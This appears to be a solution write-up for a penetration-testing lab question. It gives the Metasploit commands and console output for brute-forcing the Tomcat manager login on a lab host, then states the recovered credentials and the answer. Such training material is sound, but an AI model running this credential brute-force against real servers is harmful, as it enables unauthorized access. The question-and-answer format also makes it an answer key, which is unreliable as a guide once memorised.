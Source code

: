 ## Question 1

### "Perform a login bruteforcing attacking against Tomcat manager at web01.inlanefreight.local:8180. What is the valid username?"

After spawning the target machine, students need to make sure that the following `VHost` entry is present in `/etc/hosts`:

- `STMIP web01.inlanefreight.local`

Students then need to start `msfconsole`, use the `auxiliary/scanner/http/tomcat_mgr_login` module, and set its options accordingly:

Code: shell

```shell
msfconsole -q
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS STMIP
set RPORT 8180
set VHOST web01.inlanefreight.local
set STOP_ON_SUCCESS true
exploit
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ msfconsole -q
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/http/tomcat_mgr_login
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set RHOSTS 10.129.201.58
RHOSTS => 10.129.201.58
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set RPORT 8180
RPORT => 8180
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set VHOST web01.inlanefreight.local
VHOST => web01.inlanefreight.local
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
<SNIP>
[+] 10.129.201.58:8180 - Login Successful: tomcat:root
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The login credentials found are `tomcat:root`.

Answer: `tomcat`
